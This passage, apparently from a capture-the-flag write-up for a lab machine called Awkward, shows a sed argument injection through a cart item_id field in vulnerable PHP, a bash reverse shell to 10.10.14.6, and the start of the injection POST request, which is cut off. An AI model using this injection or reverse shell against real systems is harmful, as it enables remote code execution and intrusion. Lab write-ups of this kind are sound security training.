 
#### Building Remote POC

The `sed` on Awkward looks like:

    
    
    sed -i '/item_id={$item_id}/d' {$STORE_HOME}cart/{$user_id}
    

If I set `$item_id` to `1' -e '1e /dev/shm/shell.sh' '`, then it becomes:

    
    
    sed -i '/item_id=1' -e '1e /dev/shm/shell.sh' '/d' {$STORE_HOME}cart/{$user_id}
    

This matches exactly what I had above, except now it’s running `shell.sh`.

One gotcha to look out for - if your script (`shell.sh`) outputs any data,
then that data will be added to the front of the file. But once that happens,
it will fail the `checkValidItem` check, and never each `sed`:

    
    
        if(checkValidItem("{$STORE_HOME}cart/{$user_id}")) {
            system("sed -i '/item_id={$item_id}/d' {$STORE_HOME}cart/{$user_id}");
            echo "Item removed from cart";
        }
        else {
            echo "Invalid item";
        }
    

#### Shell

To run this on Awkward, I’ll create a simple reverse shell script:

    
    
    bean@awkward:/dev/shm$ echo -e '#!/bin/bash\n\nbash -i >& /dev/tcp/10.10.14.6/443 0>&1'
    #!/bin/bash
    
    bash -i >& /dev/tcp/10.10.14.6/443 0>&1
    bean@awkward:/dev/shm$ echo -e '#!/bin/bash\n\nbash -i >& /dev/tcp/10.10.14.6/443 0>&1' > shell.sh
    bean@awkward:/dev/shm$ chmod +x shell.sh 
    

I’ll also make sure I have something in my cart (or at least that the cart
file exists). Then I can send the injection:

    
    
    POST /cart_actions.php HTTP/1.1
    Host: store.hat-valley.htb
    User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/109.0
    Accept: */*
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Content-Type: application/x-www-form-urlencoded; charset=UTF-8
    X-Requested-With: XMLHttpRequest
    Content-Length: 78
    Origin: http://store.hat-valley.htb
    Authorization: Basic YWRtaW46MDE0bXJiZWFucnVsZXMhI1A=
    Connection: close
    Referer: http://store.hat-valley.htb/cart.php
    Pragma: no-cache
    Cache-Control: no-cache
    